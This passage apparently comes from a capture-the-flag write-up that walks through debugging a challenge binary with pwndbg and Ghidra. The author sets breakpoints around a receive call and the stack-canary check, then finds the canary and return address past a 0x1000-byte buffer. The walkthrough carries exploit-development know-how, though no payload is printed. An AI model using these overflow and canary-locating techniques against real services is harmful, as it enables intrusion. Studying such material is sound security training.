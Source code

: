 ```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x7ffff7d13000     0x7ffff7df7000 r-xp    e4000 0      /home/test/workspace/codebreaker/lpcomms/exfil/powershell_lp
    0x7ffff7ff1000     0x7ffff7ff5000 r--p     4000 0      [vvar]
    0x7ffff7ff5000     0x7ffff7ff6000 r-xp     1000 0      [vdso]
    0x7ffff7ff6000     0x7ffff7ffd000 rw-p     7000 e3000  /home/test/workspace/codebreaker/lpcomms/exfil/powershell_lp
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000 0      [heap]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
```

We are interested in the very first entry of `0x7ffff7d13000`.  In Ghidra, select `Window -> Memory Map`, then click the `Home` icon in the top right.  Paste the value into the prompt and hit ok.  Your addresses should now match what we see in gdb.  We will want to set a couple breakpoints in gdb.  First, let's break just before our call to `receiveAllBytes` to see what the stack looks like before we attempt to alter it.  This call occurs at `0x7ffff7d1c71a`.  Next, we will want to set a breakpoint where the program determines if the canary has been overwritten.  This is at `0x7ffff7d1c7ad`.

Back in gdb:

```bash
pwndbg> br *0x7ffff7d1c71a
Breakpoint 3 at 0x7ffff7d1c71a
pwndbg> br *0x7ffff7d1c7ad
Breakpoint 4 at 0x7ffff7d1c7a
pwndbg> c
Continuing.
Server started port 8080
```

We are ready to send our payload by running our proof of overflow script again.  Once the script runs, we should hit our first breakpoint.

Using pwndbg, let's take a look at the stack just before we execute the call to `receiveAllBytes`:

```bash
pwndbg> telescope $rsp+0x1000 10
00:0000│     0x7fffffffe020 ◂— 0x0
... ↓        3 skipped
04:0020│     0x7fffffffe040 —▸ 0x7ffff7ff0000 ◂— 0x48aa00000006
05:0028│     0x7fffffffe048 ◂— 0x3f079edd438f5800
06:0030│     0x7fffffffe050 —▸ 0x7ffff7ff0000 ◂— 0x48aa00000006
07:0038│     0x7fffffffe058 —▸ 0x7ffff7d1d860 ◂— push   rbp
08:0040│ rbp 0x7fffffffe060 —▸ 0x7fffffffe0d0 —▸ 0x7fffffffe100 —▸ 0x7ffff7d1d7c0 ◂— push   r15
09:0048│     0x7fffffffe068 —▸ 0x7ffff7d1c95f ◂— mov    rax, qword ptr [rip + 0x2dfa62]
```

Because we know that there is a `0x1000` byte buffer on the stack, I just want to look at what's past that, so I telescope 0x1000 bytes past the stack pointer, and see some interesting stuff.  Starting at the bottom, just afer `rbp` we see what should be the return address for when this function returns.  a few lines above at `0x7fffffffe048`, we see an interesting value: `0x3f079edd438f5800`.  Let's dig into this a bit more.

Based on our observations in Ghidra, we know the canary is likely stored at an offset from fs (specifically +0x28).  pwndbg has a handy way of exploring this area:
